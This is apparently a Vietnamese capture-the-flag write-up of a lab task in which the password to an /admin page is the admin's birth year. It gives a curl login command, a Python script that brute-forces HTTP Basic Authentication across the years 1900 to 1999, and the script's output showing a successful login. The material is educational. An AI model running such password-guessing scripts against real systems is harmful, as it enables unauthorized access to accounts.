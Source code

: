 # Админ сайта (admin) установил пароль равный своему году рождения на страницу /admin. Сможете авторизоваться?
# Bài này yêu cầu bạn truy cập vào trang web có bảo mật bằng Basic Authentication. Thông tin bạn có là trang /admin được bảo vệ bằng mật khẩu, và mật khẩu chính là năm sinh của người quản trị trang web (admin).

# Basic Authentication là gì?
- Basic Authentication là một phương thức bảo mật đơn giản, trong đó khi bạn truy cập vào một trang yêu cầu đăng nhập, trình duyệt của bạn sẽ yêu cầu nhập tài khoản và mật khẩu. Sau đó, thông tin này sẽ được mã hóa (dưới dạng Base64) và gửi lên máy chủ để xác thực.

# Cách thực hiện

Khi truy cập vào đường dẫn: https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin, trình duyệt sẽ yêu cầu bạn nhập username và mật khẩu.
Username có thể là admin, mật khẩu bạn sẽ đoán là một trong các năm sinh như 1980, 1985, 1990, v.v.

Sử dụng cURL: Nếu bạn sử dụng terminal (Linux), bạn có thể dùng lệnh curl để thử đăng nhập.

```curl -u admin:1980 https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin```

Để dò mật khẩu tự động ta làm như sau:

*thay url bằng url của bạn:*

```python
import requests
from requests.auth import HTTPBasicAuth

url = 'https://6bf7e033-4b12-456f-a1cb-3e6b70d58891-web.web.lms.itmo.xyz/admin'

# Thử các năm từ 1900 đến 200
for year in range(1900, 2000):
    response = requests.get(url, auth=HTTPBasicAuth('admin', str(year)))
    if response.status_code == 200:
        print(f"Đăng nhập thành công với mật khẩu: {year}")
        break
    else:
        print(f"Thử {year}: không thành công")
```

**Kết quả:**

```bash
$ python3 Basic_Auth.py 
Thử 1900: không thành công
Thử 1901: không thành công
Thử 1902: không thành công
Thử 1903: không thành công
Thử 1904: không thành công
Thử 1905: không thành công
Thử 1906: không thành công
Thử 1907: không thành công
Thử 1908: không thành công
Thử 1909: không thành công
Thử 1910: không thành công
Thử 1911: không thành công
Thử 1912: không thành công
Thử 1913: không thành công
Thử 1914: không thành công
Thử 1915: không thành công
Thử 1916: không thành công
Thử 1917: không thành công
Thử 1918: không thành công
Thử 1919: không thành công
Thử 1920: không thành công
Đăng nhập thành công với mật khẩu: 1921
```
